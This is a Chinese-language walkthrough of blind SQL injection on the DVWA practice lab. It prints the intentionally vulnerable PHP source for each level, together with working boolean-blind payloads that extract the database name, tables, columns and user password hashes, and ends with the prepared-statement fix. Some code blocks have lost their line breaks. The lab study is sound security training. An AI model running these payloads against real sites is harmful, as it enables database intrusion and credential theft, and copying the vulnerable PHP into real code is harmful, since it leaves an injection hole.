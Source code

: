 	**SQL注入**：SQL注入就是指web应用程序对用户输入数据的合法性没有判断，前端传入后端的参数是攻击者可控的，并且参数下入数据库查询，攻击者可以通过构造不同的SQL语句来实现对数据库的任意操作。


## 1、LOW
**查看源码**
```php
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Get input
    $id = $_GET[ 'id' ];

    // Check database
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors

    // Get results
    $num = @mysqli_num_rows( $result ); // The '@' character suppresses errors
    if( $num > 0 ) {
        // Feedback for end user
        echo '
<pre>User ID exists in the database.</pre>';
    }
    else {
        // User wasn't found, so the page wasn't!
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

        // Feedback for end user
        echo '
<pre>User ID is MISSING from the database.</pre>';
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```

通过查看源码可以看到直接将用户输入的id值带入SQL语句中查询，存在返回”User ID exists in the database.“，不存在返回”User ID is MISSING from the database.“。因此在这里我们只能使用盲注。

通过代码可以看到我们需要使用`'`来闭合前面的`'`，用`#`来注释掉后面的内容。

**实战**<br />判断数据库名称长度,
```
输入：1' and length(database())=4#  返回:User ID exists in the database.
输入：1' and length(database())=5#  返回:User ID is MISSING from the database.
```

说明数据库名称长度为4

使用burp爆破出数据库名
```
1' and substr(database(),1,1)='a'#
```
![image-20210414161636813.png](./assets/1655880002677-4d82483c-309e-4f3f-a350-d291752aa122.png)

得到库名dvwa<br />![image-20210414161716191.png](./assets/1655880008249-ca6ff68a-b358-4eb5-b5d8-b7695a873299.png)

判断数据库dvwa中的表
```
1' and substr((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1),1,1)='a'#
```
![image-20210414162659468.png](./assets/1655880014010-9836d01e-2bc6-4b5f-9cbb-c57813d9f9cf.png)

![image-20210414162632646.png](./assets/1655880016524-cfb1be30-37e6-4089-b871-9d251e5695b2.png)

得到表gustbook和users

判断users中的字段
```
1' and substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='a'#
```
![image-20210414164244111.png](./assets/1655880025865-823e2b90-1c1c-4416-9021-aa8405eed74f.png)

![image-20210414164307257.png](./assets/1655880028372-6d2a0ed3-ae1c-4fa5-938a-38cafe16537d.png)

得到users表中的字段：id、login······

判断第一个user，password
```
1' and substr((select concat_ws('-',user,password) from dvwa.users limit 0,1),1,1)='a'#
```
![image-20210414170504825.png](./assets/1655880035558-06918812-faa9-4754-8ac3-ea2eb3fa8530.png)

得到账户和MD5<br />![image-20210414170914553.png](./assets/1655880041739-77b889c9-1ca8-49b0-9f36-82042f895109.png)

解密得到明文<br />![image-20210414143459141.png](./assets/1655880049479-ee8cc0fc-55f5-49f2-9bf7-a2a932074df5.png)


## 2、Medium
**查看源码**
```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $id = $_POST[ 'id' ];
    $id = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $id ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Check database
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors

    // Get results
    $num = @mysqli_num_rows( $result ); // The '@' character suppresses errors
    if( $num > 0 ) {
        // Feedback for end user
        echo '
<pre>User ID exists in the database.</pre>';
    }
    else {
        // Feedback for end user
        echo '
<pre>User ID is MISSING from the database.</pre>';
    }

    //mysql_close();
}

?>
```

**函数说明**
```
mysqli_real_escape_string（）
定义和用法
mysqli_real_escape_string（）函数转义在SQL语句中使用的字符串中的特殊字符。

语法
mysqli_real_escape_string(connection,escapestring);
connection:必需。规定要使用的 MySQL 连接。
escapestring:必需。要转义的字符串。编码的字符是 NUL（ASCII 0）、\n、\r、\、'、" 和 Control-Z。
```

在这里使用了mysqli_real_escape_string（）转义一些特殊字符，也就是说我们不能使用像Low中的`'1#`,不过我们可以使用`and`来进行注入，不需要进行过滤。而且可以看到这里是以表单的形式来然我们提交，web页面参数不可控，所以需要使用burp来抓包重放。修改参数id即可。

**实战**(以下步骤与Low级基本相同不进行详细叙述，仅提供payload)

判断数据库名称长度
```
1 and length(database())=4
```

判断数据库名称(需要将字母转换为ascii十六进制)
```
1 and substr((select database()),1,1)=0x61
```

贴出一个小脚本（也不知道python中有没有能够直接转换的函数）
```python
number = input("请输入要转换字符(连续输入不需要空格)：")numbers = list(number)with open('ascii16.txt','w') as asciis16:    for number1 in numbers:        number = hex(ord(number1))        asciis16.write(number + '\n')
```

得到数据库名字dvwa<br />![image-20210415151801837.png](./assets/1655880071524-93ac7220-dcd6-4224-821f-b1a269292fab.png)

判断数据库中的表
```
1 and substr((select table_name from information_schema.tables where table_schema=0x64767761 limit 0,1),1,1)=0x61
```

得到表gustbook，users<br />![image-20210415153338386.png](./assets/1655880078165-7e5e8499-9e17-402d-89bc-e7bbf6a51187.png)

判断users中的字段
```
1 and substr((select column_name from information_schema.columns where table_name=0x7573657273 limit 0,1),1,1)=0x61
```

得到字段id、login······<br />![image-20210415154023783.png](./assets/1655880084376-ad799e91-fc85-4fc5-b793-1724b4581aeb.png)

判断字段user，password的第一个值
```
1 and substr((select concat_ws(0x2d,user,password) from dvwa.users limit 0,1),1,1)=0x61
```

得到第一个账号和MD5值<br />![image-20210415160019399.png](./assets/1655880102235-ea0fa526-7cc2-4ca3-9e5e-beb2a93c079c.png)

解密得<br />![image-20210414143459141.png](./assets/1655880104911-62c4e6cc-1d62-4faf-9110-a9e46a453171.png)



## 3、High
**查看源码**
```php
<?phpif( isset( $_COOKIE[ 'id' ] ) ) {    // Get input    $id = $_COOKIE[ 'id' ];    // Check database    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors    // Get results    $num = @mysqli_num_rows( $result ); // The '@' character suppresses errors    if( $num > 0 ) {        // Feedback for end user        echo '
<pre>User ID exists in the database.</pre>';    }    else {        // Might sleep a random amount        if( rand( 0, 5 ) == 3 ) {            sleep( rand( 2, 4 ) );        }        // User wasn't found, so the page wasn't!        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );        // Feedback for end user        echo '
<pre>User ID is MISSING from the database.</pre>';    }    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);}?>
```

通过源码可以看到将参数id放入cookie中，用cookie传递参数，而且使用sleep（）函数对时间盲注造成干扰，并且在 SQL查询语句中添加了LIMIT 1

通过查看SQL语句可以得知我们可以使用`'`来闭合前面的`'`，用`#`来注释掉后面的内容，来进行注入。

**实战**<br />以下类容基本与Low级相似，不进行详细叙述。


## 4、Impossible
**查看源码**

```php
<?phpif( isset( $_GET[ 'Submit' ] ) ) {    // Check Anti-CSRF token    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );    // Get input    $id = $_GET[ 'id' ];    // Was a number entered?    if(is_numeric( $id )) {        // Check the database        $data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' );        $data->bindParam( ':id', $id, PDO::PARAM_INT );        $data->execute();        // Get results        if( $data->rowCount() == 1 ) {            // Feedback for end user            echo '
<pre>User ID exists in the database.</pre>';        }        else {            // User wasn't found, so the page wasn't!            header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );            // Feedback for end user            echo '
<pre>User ID is MISSING from the database.</pre>';        }    }}// Generate Anti-CSRF tokengenerateSessionToken();?>
```

可以看到，Impossible级别的代码采用了PDO技术，划清了代码与数据的界限，有效防御SQL注入，Anti-CSRF token机制的加入了进一步提高了安全性。
